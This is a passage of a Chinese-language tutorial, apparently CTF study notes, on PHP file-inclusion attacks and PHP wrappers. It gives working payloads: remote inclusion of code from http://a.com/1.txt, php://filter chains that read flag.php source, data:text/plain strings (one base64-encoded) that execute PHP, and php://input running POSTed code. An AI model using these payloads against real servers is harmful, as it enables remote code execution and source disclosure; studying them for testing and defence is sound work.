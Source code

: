 ```txt
<?php
phpinfo();
?>
```

当攻击者在**http://a.com/1.txt**写入php代码时，使用GET传参控制?url=**http://a.com/1.txt**，那么服务器端将执行1.txt中的php代码

## PHP伪协议

## 常用php伪协议

> PHP 伪协议是一种特殊的 PHP 特性，允许在 PHP 中通过类似 URL 的方式来访问各种资源，如文件、数据流等
> - file://: 允许 PHP 访问本地文件系统中的文件
> - http:// 或 https://: 允许 PHP 通过 HTTP 或 HTTPS 协议访问远程服务器上的资源
> - ftp://: 允许 PHP 通过 FTP 协议访问远程 FTP 服务器上的文件。
> - php://: 提供了访问各种输入输出流的方式
> - data://: 允许在 PHP 中直接使用数据 URI，将数据嵌入到 URL 中


### php://filter/

payload1：**url?c=include$_GET[1];&1=php://filter/convert.base64-encode/resource=flag.php**

#### 拆分理解

**php://filter**作用将数据，文件内容封装起来

**convert**数据编码转换器，不进行编码的话，flag.php会作为php文件运行，无法看到文件内容  

**base64-encode**使用base64的编码格式打印出来  

highlight_file($_GET['cmd'])，也可以利用伪协议读文件


根据这张图，还可以再延申出几种方式

一些编码格式

- php://filter/convert.base64-encode/resource=1.php
- php://filter/string.rot13/resource=1.php
- php://filter//convert.iconv.SJIS*.UCS-4*/resource=1.php

### data://  

> 注意：data:text/plain，php://input等伪协议需要在php.ini配置文件中打开**allow_url_fopen，allow_url_include**这两项  

> 数据流封装器，以传递相应格式的数据。可以让用户来控制输入流，当它与包含函数结合时，用户输入的data:text/plain流中如果有PHP代码，将会被当作php正常执行。

两种形式

> data://text/plain在 PHP 中可用于打开文本数据流，而data:text/plain则是在 URL 中表示纯文本数据的 MIME 类型。

可以直接逗号,加php代码，也可以分号;base64编码混淆一下

用法：

```php
url?c=include$_GET[1];&1=data:text/plain,<?php phpinfo();?>
url?c=include$_GET[1];&1=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

### php://input

> 可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行  

payload3：**url?c=include$_GET[1];&1=php://input**

POST:  

```php
echo'hello';
```